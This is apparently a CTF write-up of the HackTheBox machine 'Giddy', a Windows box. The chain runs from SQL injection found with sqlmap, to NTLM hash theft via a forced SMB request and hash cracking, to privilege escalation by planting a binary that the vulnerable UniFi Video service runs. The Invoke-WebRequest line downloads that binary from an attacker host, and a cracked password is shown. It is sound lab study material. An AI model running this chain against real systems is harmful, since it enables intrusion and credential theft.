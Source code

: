 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-02-16-giddy-hackthebox
tags:
- hackthebox
- powershell
- responder
- service
- sql injection
- windows
title: Giddy @ HackTheBox
---
```


In this post I will give a quick walkthrough on Giddy from [hackthebox.eu](https://www.hackthebox.eu). The machine involves (automated) sql injection, stealing ntlm hashes via sqli and the exploitation of vulnerable service for which a CVE exists.

## User Flag

Scanning the machine with nmap (`nmap -Pn -n -sV -sC 10.10.10.104`) reveals the following services:

```
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2018-12-20T19:56:44+00:00; -2h09m16s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2018-12-16T04:10:33
|_Not valid after:  2019-06-17T04:10:33
|_ssl-date: 2018-12-20T19:56:44+00:00; -2h09m16s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

  
On port 80/443 we are presented with an image of a dog in a car, so the first thing to do is to search for actually useful websites in sub folders with dirb (`dirb https://giddy.htb`).

In `/remote` we find a powershell web logon:

![](htb_giddy_ps_login.png)

However trying some standard username password combinations yields no results, so we start looking for other web content. In `/mvc` a new website can be seen:

![](htb_giddy_shop.png)

Clicking on a product leads to the following url: `https://giddy.htb/mvc/Product.aspx?ProductSubCategoryId=18`. Since id fields are often prone to injection vulnerabilities we try to enter a `'` which results in the following error: `[SqlException (0x80131904): Unclosed quotation mark after the character string ''.`. This hints strongly at mssql sql injection, so we can use sqlmap (`sqlmap -u https://giddy.htb/mvc/Product.aspx\?ProductSubCategoryId\=18 --batch --level 5 --risk 3 --table`) to further explore that vector, which leads to a full database dump via union based sql injection. However nothing too interesting can be found in the database and getting a shell via `--os-pwn` or `--ps-shell` fails too.

We can however use the sql injection vector to make a smb request to our attacker box and get the smb authentication (username, domain and ntlmv2-hash) this way.  
An easy way to complish this is to use metasploits `admin/mssql/mssql_ntlm_stealer_sqli` module, which uses the `dir_tree` command of mssql to authenticate via smb. Besides setting `RHOSTS` and `SMBPROXY` it is important to set the `GET_PATH` parameter with a `[SQLi]` string at the point of injection, in this case `/mvc/Product.aspx?ProductSubCategoryId=18;[SQLi]`. Before executing the attack a listener for the smb request should be started. In this case we are using the one from metasploit (`server/capture/smb`), but any other capture tool like for example responder can be used as well.

We receive the following authentication:

```
NTLMv2 Response Captured from 10.10.10.104:49724 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:a64d9f281ab84503c3615f603a3dbea6
NT_CLIENT_CHALLENGE:0101000000000000515eeb0bae98d401446aefd9a9df392c00000000020000000000000000000000
```

The hash can be cracked with john (`john --wordlist=~/rockyou.txt hash`) in seconds and reveals the password of `GIDDY\Stacy` to be `xNnWo6272k7x`. Going back to the powershell webconsole we discovered earlier we can now log into the machine.

![](htb_giddy_ps_login_success.png)## Root Flag

In the user folder of stacy we find a file `univideo` with the content "stopped", which is a bit suspicious. In addition we find the file "C:\\Users\\Stacy\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost\_history.txt" which has the following entry:

```
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

So we learned that this unifivideoservice is installed and can be started and stopped by stacy. Querying the service with `cmd.exe /c 'sc qc Unifivideoservice'` shows that the service indeed exists and runs as `LocalSystem`:

```
TYPE               : 10  WIN32_OWN_PROCESS 
START_TYPE         : 2   AUTO_START
ERROR_CONTROL      : 1   NORMAL
BINARY_PATH_NAME   : C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
LOAD_ORDER_GROUP   : 
TAG                : 0
DISPLAY_NAME       : Ubiquiti UniFi Video
DEPENDENCIES       : Tcpip
                   : Afd
SERVICE_START_NAME : LocalSystem
```

Searching for public exploits points us to `https://www.exploit-db.com/exploits/43390`. From the vulnerability description: "Upon start and stop of the service, it tries to load and execute the file at "C:\\ProgramData\\unifi-video\\taskkill.exe". However this file does not exist inthe application directory by default at all."

This means we can create a custom taskkill.exe at the specified location which will be executed by LocalSystem. Since we are on a windows machine that has possibly windows defender activated, the simplest thing to do here is to create a custom executable that just reads the root.txt and therefore does not trigger any detection.

I’m creating the following program and compile it with mingw (`x86_64-w64-mingw32-gcc read.c -o read.exe`):

```cpp
#include <stdio.h>
#include <stdlib.h>


int main()
{
    FILE *fptr1, *fptr2;
    char *src = "C:\\Users\\Administrator\\Desktop\\root.txt";
    char *dst = "C:\\Users\\Stacy\\Documents\\xct.txt";
    char c;

    fptr1 = fopen(src, "r");
    if (fptr1 == NULL)
    {
        printf("Cannot open file %s \n", src);
        exit(0);
    }

    fptr2 = fopen(dst, "w");
    if (fptr2 == NULL)
    {
        printf("Cannot open file %s \n", dst);
        exit(0);
    }

    c = fgetc(fptr1);
    while (c != EOF)
    {
        fputc(c, fptr2);
        c = fgetc(fptr1);
    }

    printf("\nContents copied to %s", src);
    fclose(fptr1);
    fclose(fptr2);
    return 0;
}
```

The compiled program is put into the correct folder and on restart of the service executed:

```
Invoke-WebRequest "http://x.x.x.x:8000/read.exe" -OutFile "C:\ProgramData\unifi-video\taskkill.exe"
restart-service -name "Unifivideoservice"
```

The root flag is now in `xct.txt` in the Documents folder of stacy and the box therefore finished.